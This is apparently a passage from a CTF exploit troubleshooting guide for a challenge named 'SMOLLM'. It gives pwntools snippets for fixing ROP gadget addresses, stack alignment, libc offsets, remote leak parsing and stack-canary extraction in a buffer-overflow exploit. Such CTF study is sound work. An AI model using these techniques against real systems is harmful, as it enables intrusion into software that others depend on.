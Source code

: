 
### Issue 5: "Segmentation fault after overflow"

**Symptom:**
```
Segmentation fault (core dumped)
```

**Possible causes:**

1. **Wrong gadget addresses**
   ```python
   # Verify addresses are reasonable
   print(f"pop rdi: {hex(pop_rdi_gadget)}")
   print(f"Should start with 0x7f...")
   ```

2. **Stack not aligned**
   ```python
   # Make sure ret gadget is included!
   add_token(p64(ret_gadget))  # This fixes alignment
   ```

3. **Wrong libc offset**
   ```python
   # Try alternative offset if 0x2a1ca doesn't work
   LIBC_OFFSET = 0x29d90  # Alternative
   ```

---

### Issue 6: "Local works, remote doesn't"

**Symptom:**

Exploit succeeds locally but fails on remote server.

**Causes:**
- Different stack layout
- Different libc version
- Different leak positions

**Solution:**

1. **Test leak parsing on remote first:**
   ```python
   io = remote("SMOLLM.flu.xxx", 1024)
   # ... leak stage ...
   
   # Print all leaks to see positions
   for i in range(30):
       print(f"leak[{i}] = 0x{leak[i]}")
   ```

2. **Adjust positions if needed:**
   ```python
   # If canary is at different position on remote
   canary = int(leak[2], 16)  # Instead of leak[1]
   ```
